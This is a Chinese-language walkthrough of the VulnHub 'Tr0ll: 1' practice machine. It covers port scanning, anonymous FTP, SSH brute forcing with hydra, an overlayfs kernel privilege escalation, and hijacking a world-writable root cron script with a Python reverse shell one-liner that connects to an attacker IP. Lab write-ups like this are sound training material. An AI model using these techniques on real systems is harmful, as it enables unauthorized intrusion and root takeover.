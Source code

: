 # Tr0ll: 1

https://www.vulnhub.com/entry/tr0ll-1,100/

difficulty: Beginner

Finish Date：2024-4-9

## IP

192.168.10.154

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.10.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/secret
```

看到开放了 21 ftp 端口，并且可以匿名登陆，先看看里面有什么有价值的信息。发现了一个 lol.pcap 抓包文件，下载到 kali，用 wireshark 打开，看看有什么内容。Follow Tcp 后发现其中下载了一个名为 secret_stuff.txt 的文件，其中的内容对应为：

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P

Sucks, you were so close... gotta TRY HARDER!
```

sup3rs3cr3tdirlol 看上去好像是个目录，或者是个密码，尝试在 80 端口上访问看看。http://192.168.10.154/sup3rs3cr3tdirlol/ 发现了一个名为 roflmao 的二进制文件，看看其中内容。

```
strings roflmao

Find address 0x0856BF to proceed  <-- 0x0856BF 可能是有一定特殊含义
```

盲猜可能是一个目录，尝试在 web 服务上访问这个目录：http://192.168.10.154/0x0856BF/ 进一步发现了 2 个有意思的文件夹。

http://192.168.10.154/0x0856BF/good_luck/which_one_lol.txt 对应的看上去像是用户名。

http://192.168.10.154/0x0856BF/this_folder_contains_the_password/Pass.txt 这个可能是密码。

尝试用获得的用户名和密码，使用 hydra 对目标机器进行 ssh 爆破，密码不对，再次看密码文件夹的提示，有没有可能文件名 Pass.txt 就是密码，再次尝试。果然是这个密码：

```
[22][ssh] host: 192.168.10.154   login: overflow   password: Pass.txt
```

进行登陆，显示的 tty 不太友好，先升级 tty : python -c 'import pty; pty.spawn("/bin/bash")'。过了一会系统把会话中断了，看样子系统上有计划任务，5 分钟就中断会话。

## flag

### 方式 1：

uname -a 查看到系统内核为：Linux troll 3.13.0 ，搜索了以下内核对应的漏洞为 'overlayfs' Local Privilege Escalation
将 c 代码下载到目标机器的/tmp 目录，然后进行编译，最后运行得到了 root 用户，获得了 flag：

```
# cat proof.txt
Good job, you did it!

702a8c18d29c6f3ca0d99ef5712bfbdc

```

### 方式 2：

看到目标系统每隔 5 分钟会将会话中断，应该是计划任务 root 用户调用的，所以可以看看找找这个执行的脚本，我们有没有写入权限。

先查看下 crontab 的日志文件，可能有脚本执行提示信息：

```
cat /var/log/cronlog

*/2 * * * * cleaner.py
```

找到 cleaner.py 所在的路径为：/lib/log/cleaner.py 这个文件我们有完全写入的权限，就可以把我们的反弹 shell 操作替换其中的清理/tmp 目录的操作，获得 root 的 shell。

```
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /tmp/* ')
    <-- 这里换成 import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' -->
except:
	sys.exit()

-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

计划任务配置信息可能存在的几个地方：

```
/etc/crontab           <-- 维护Linux操作系统所需的系统任务

/etc/cron.d/
/etc/cron.daily/
/etc/cron.hourly/
/etc/cron.monthly/
/etc/cron.weekly/

/var/spool/cron/crontabs/root  <-- 用户cron任务的配置文件存放目录，最后这个是用户名，每一个用户如果配置了 crontab -e 都会生成一个对应用户名的计划任务文件
```

查看到 /var/spool/cron/crontabs/root 或者执行 crontab -l 的内容：

```
*/5 * * * * /usr/bin/python /opt/lmao.py          <-- 每5分钟调用一次
*/2 * * * * /usr/bin/python /lib/log/cleaner.py   <-- 每2分钟调用一次，这里就会调用上面我们修改后的py脚本
```

/opt/lmao.py 的内容为：

```
#!/usr/bin/env python
import os

os.system('echo "TIMES UP LOL!"|wall')
os.system("pkill -u 'overflow'")
sys.exit()
```
